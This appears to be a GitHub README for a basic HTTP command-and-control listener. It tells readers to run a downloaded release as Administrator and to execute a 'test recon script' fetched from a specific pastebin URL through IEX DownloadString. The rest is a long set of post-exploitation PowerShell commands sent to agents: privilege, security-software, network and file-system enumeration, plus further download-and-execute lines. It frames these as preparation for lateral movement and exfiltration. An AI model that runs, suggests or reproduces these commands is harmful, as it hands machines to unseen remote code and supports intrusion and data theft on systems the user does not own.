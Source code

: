 # SimpleC2Listener

Basic HTTP C2 server for remote command execution. Install this agent on your Command and Control Windows Host. Right click and 'Run As Administrator'

## Features
- HTTP-based beacon check-ins
- PowerShell command execution
- Agent session tracking
- Console interface

## Usage
1. Download the Release and Run it as Admin!
2. Connect agents to `http://your-ip:8080`
3. Use console commands: `cmd <agent> <command>`


Run a test recon script

cmd agent_001 IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/7iAQJzH1')

# PowerShell Command Examples

This section demonstrates various PowerShell commands that can be executed through the SimpleC2Listener framework. These commands showcase typical post-exploitation reconnaissance and system enumeration techniques used in cybersecurity assessments.

## Basic System Information

### User Context
```powershell
C2> cmd agent_001 whoami
C2> cmd agent_001 whoami /priv
C2> cmd agent_001 $env:USERNAME
```

### System Information
```powershell
C2> cmd agent_001 systeminfo
C2> cmd agent_001 Get-WmiObject -Class Win32_ComputerSystem
C2> cmd agent_001 Get-ComputerInfo | Select-Object WindowsProductName, TotalPhysicalMemory
```

### Operating System Details
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_OperatingSystem
C2> cmd agent_001 hostname
```

## User and Group Enumeration

### Local Users
```powershell
C2> cmd agent_001 Get-LocalUser | Where-Object {$_.Enabled -eq $true}
C2> cmd agent_001 Get-LocalGroupMember -Group "Administrators"
```

### Current User Privileges
```powershell
C2> cmd agent_001 whoami /priv
C2> cmd agent_001 whoami /groups
```

## Process and Service Enumeration

### Running Processes
```powershell
C2> cmd agent_001 Get-Process | Select-Object -First 10
C2> cmd agent_001 Get-Process | Sort-Object CPU -Descending | Select-Object -First 10
C2> cmd agent_001 Get-Process | Where-Object {$_.ProcessName -eq "explorer"}
```

### Services
```powershell
C2> cmd agent_001 Get-Service | Where-Object {$_.Status -eq "Running"}
C2> cmd agent_001 Get-WmiObject -Class Win32_Service | Where-Object {$_.StartMode -eq "Auto" -and $_.State -eq "Running"}
```

### Security Software Detection
```powershell
C2> cmd agent_001 Get-Process | Where-Object {$_.ProcessName -match "defender|kaspersky|symantec|mcafee|norton"}
C2> cmd agent_001 Get-Service | Where-Object {$_.Name -match "defender|antivirus|firewall"}
```

## Network Reconnaissance

### Network Configuration
```powershell
C2> cmd agent_001 ipconfig /all
C2> cmd agent_001 Get-NetIPAddress | Where-Object {$_.AddressFamily -eq "IPv4"}
C2> cmd agent_001 Get-NetNeighbor | Where-Object {$_.State -eq "Reachable"}
```

### Network Connections
```powershell
C2> cmd agent_001 netstat -an | findstr LISTENING
C2> cmd agent_001 netstat -an | findstr ESTABLISHED
```

## File System Enumeration

### Directory Listings
```powershell
C2> cmd agent_001 dir C:\
C2> cmd agent_001 Get-ChildItem -Path C:\ -Force -ErrorAction SilentlyContinue
C2> cmd agent_001 dir C:\Users
C2> cmd agent_001 Get-ChildItem -Path "C:\Program Files" | Select-Object Name
```

### User Directories
```powershell
C2> cmd agent_001 dir C:\Users\%USERNAME%\Desktop
C2> cmd agent_001 dir C:\Users\%USERNAME%\Documents
C2> cmd agent_001 dir C:\Users\%USERNAME%\Downloads
```

### File Search
```powershell
C2> cmd agent_001 Get-ChildItem C:\ -Recurse -Include *.txt,*.doc,*.pdf -ErrorAction SilentlyContinue | Select-Object FullName -First 20
C2> cmd agent_001 dir C:\Users -Recurse -Include *.exe | Select-Object Name, Directory, Length
```

### Large Files
```powershell
C2> cmd agent_001 Get-ChildItem C:\Users -Recurse -ErrorAction SilentlyContinue | Where-Object {$_.Length -gt 100MB} | Select-Object FullName, Length
```

## System Event Logs

### Security Events
```powershell
C2> cmd agent_001 Get-EventLog -LogName Security -Newest 5 | Select-Object TimeGenerated,EventID,Message
C2> cmd agent_001 Get-EventLog -LogName System -Newest 10 | Select-Object TimeGenerated,Source,Message
```

## Remote Script Execution

### Execute Remote PowerShell Scripts
```powershell
C2> cmd agent_001 IEX (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/YOUR_SCRIPT_ID')
```

### Download and Execute from URL
```powershell
C2> cmd agent_001 Invoke-WebRequest -Uri "https://example.com/script.ps1" -UseBasicParsing | Invoke-Expression
```

## Advanced System Information

### Hardware Information
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_Processor | Select-Object Name, NumberOfCores
C2> cmd agent_001 Get-WmiObject -Class Win32_PhysicalMemory | Measure-Object Capacity -Sum
```

### Installed Software
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_Product | Select-Object Name, Version | Sort-Object Name
C2> cmd agent_001 Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion
```

### Startup Programs
```powershell
C2> cmd agent_001 Get-WmiObject -Class Win32_StartupCommand | Select-Object Name, Command, Location
```

## Environment and Registry

### Environment Variables
```powershell
C2> cmd agent_001 Get-ChildItem Env: | Sort-Object Name
C2> cmd agent_001 $env:PATH
C2> cmd agent_001 $env:COMPUTERNAME
```

### Registry Queries
```powershell
C2> cmd agent_001 Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion"
```

## Administrative Commands

### Scheduled Tasks
```powershell
C2> cmd agent_001 Get-ScheduledTask | Where-Object {$_.State -eq "Ready"} | Select-Object TaskName, TaskPath
```

### Windows Features
```powershell
C2> cmd agent_001 Get-WindowsFeature | Where-Object {$_.InstallState -eq "Installed"}
```

## Usage Notes

- Replace `agent_001` with your actual agent ID
- Some commands may require elevated privileges
- Add `-ErrorAction SilentlyContinue` to suppress error messages
- Use `Select-Object -First N` to limit output for large datasets
- Commands can be chained with PowerShell operators like `|`, `Where-Object`, etc.

## Security Testing Scenarios

These commands are commonly used in:
- **Post-exploitation reconnaissance**
- **Privilege escalation enumeration**
- **Lateral movement preparation**
- **Data discovery and exfiltration planning**
- **Security control identification**

**Important:** Only use these commands in authorized testing environments or systems you own.


